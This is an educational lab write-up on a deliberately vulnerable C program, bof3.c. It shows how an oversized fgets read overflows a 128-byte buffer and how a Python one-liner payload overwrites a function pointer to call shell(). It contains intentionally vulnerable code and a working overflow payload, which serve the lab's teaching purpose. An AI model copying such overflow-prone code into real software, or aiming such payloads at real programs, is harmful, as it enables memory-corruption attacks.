


# Buffer Overflow Attack on `bof3.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void shell()
{
    printf("You made it! The shell() function is executed\n");
}

void sup()
{
    printf("Congrat!\n");
}

void main()
{
    int var;
    void (*func)() = sup;
    char buf[128];
    fgets(buf, 133, stdin);
    func();
}
```

This program has a vulnerability similar to the previous example in `bof2.c`. Although it uses `fgets()` to limit input size, the input limit (133 characters) exceeds the size of the `buf[128]` buffer, making it vulnerable to a buffer overflow attack.

The target is to exploit this vulnerability by modifying the `func` pointer, which initially points to the `sup()` function, to instead point to the `shell()` function.

## Compiling the Program

As with previous examples ([bof1.c](./bof1.md) and [bof2.c](./bof2.md)), we compile the source code using `-fno-stack-protector` to disable the stack protector, which prevents stack overflows from being detected at runtime.

```bash
gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
```

A new executable file, `bof3.o`, is created.

## Stack Frame of `main()` Function

Here’s the stack frame in the `main()` function, with `buf[128]` and the function pointer `func`:



## Finding the Address of the `shell()` Function

In order to redirect execution to `shell()`, we first need to find its address. We can do this using the `objdump` command.

```bash
objdump -d bof3.o | grep shell
```

### Result


The address of the `shell()` function is `0x0804845b`. We will input this address in reverse order as `5b 84 04 08` (Little Endian format).

After our attack, the stack frame will look like this:



The value of the function pointer `*func` should now be `0x0804845b`, pointing to `shell()`.

## Crafting the Input for the Attack

To exploit this vulnerability, we need to:

1. Fill the buffer `buf[128]` with 128 characters.
2. Overwrite the address stored in `*func` with the address of `shell()` (`0x0804845b`).

We can use Python to craft the input:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')")
```

### Explanation:

-   `'a' * 128`: Fills the `buf[128]` buffer.
-   `'\x5b\x84\x04\x08'`: The Little Endian representation of the `shell()` function's address, overwriting the `func` pointer.

### Injecting the Payload

We will pipe the crafted input into the program:

```bash
echo $(python -c "print('a' * 128 + '\x5b\x84\x04\x08')") | ./bof3.o
```

### Result:


The message confirms that we successfully redirected execution to the `shell()` function, demonstrating a successful buffer overflow attack.
